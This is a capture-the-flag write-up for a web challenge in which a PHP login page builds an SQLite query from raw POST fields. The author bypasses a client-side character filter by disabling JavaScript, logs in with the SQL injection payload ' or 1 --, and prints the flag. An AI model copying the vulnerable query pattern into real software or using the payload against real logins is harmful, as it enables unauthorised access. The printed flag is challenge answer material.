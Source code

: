 ```html
  </body>
</html>
```

And as `login.php` source is provided it is quite clear that the sql injection exists...

```php
<?php
  include "config.php";
  $con = new SQLite3($database_file);

  $username = $_POST["username"];
  $password = $_POST["password"];
  $query = "SELECT * FROM users WHERE name='$username' AND password='$password'";
  $result = $con->query($query);
  $row = $result->fetchArray();

  if ($row) {
    echo "<h1>Logged in!</h1>";
    echo "<p>Your flag is: $FLAG</p>";
  } else {
    echo "<h1>Login failed.</h1>";
  }
?>
```

So we entered `'` character and the client side javascript replied with:

```
"Error, Invalid characters detected"
```

This can be taken care by using NoScript in Iceweasel or disabling javascript by intercepting in burp suite.<br>
So we entered the following in the password field after disabling javascript.

```
' or 1 --
```

and the flag popped out:

```
Logged in!
Your flag is: lasactf{cl1ent_sid3_b3st_s1de}
```

**Flag:**

```
lasactf{cl1ent_sid3_b3st_s1de}
```

<hr>
<br>

